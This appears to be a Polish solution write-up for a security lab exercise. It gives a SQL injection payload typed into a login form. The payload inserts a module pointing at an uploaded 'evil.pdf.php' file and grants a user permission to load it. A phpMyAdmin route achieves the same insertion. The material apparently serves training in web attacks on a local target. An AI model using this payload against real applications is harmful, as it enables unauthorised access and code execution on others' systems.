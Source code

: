 # Wykonanie [ROZWIĄZANIE]

## Metoda SQLi

Nie rozwodząc się za bardzo nad działaniem tego zapytania w formularzu logowania należy wprowadzić:

```
Login: ' OR 1=1; INSERT INTO modules(path, name) VALUES ('../../uploads/evil.pdf.php', 'Evil'); INSERT INTO permissions(module_id, user_id) VALUES (2, 1); --

Hasło: <dowolne>
```

**Na końcu loginu jest spacja!**

## phpMyAdmin

1. Zaloguj się do panelu (localhost:8081) \
2. Rozwiń bazę danych **baim_db** \
3. Wybierz tabelę **modules**

![Widok phpmyadmin](images/phpmyadmin.png)

4. Przyciskiem na samej górze przejdź do zakładki **Insert**

![Przycisk insert](images/insert.png)

5. Wpisz następujące wartości (nie trzeba wpisywać id) i kliknij GO

![Widok insert modules](images/modules.png)

6. Następnie przejdź do tabeli **permissions** i dodaj dla użytkownika **baim** (jego id jest równe1) dostęp do modułu o id równym 2

![Widok insert permissions](images/permissions.png)

7. Tabele powinny wyglądać tak:

![Modules](images/modules1.png)
![Permissions](images/permissions1.png)

Po odświeżeniu panelu testowanej aplikacji (localhost:8080), powinien pojawić się moduł o nazwie **Evil**
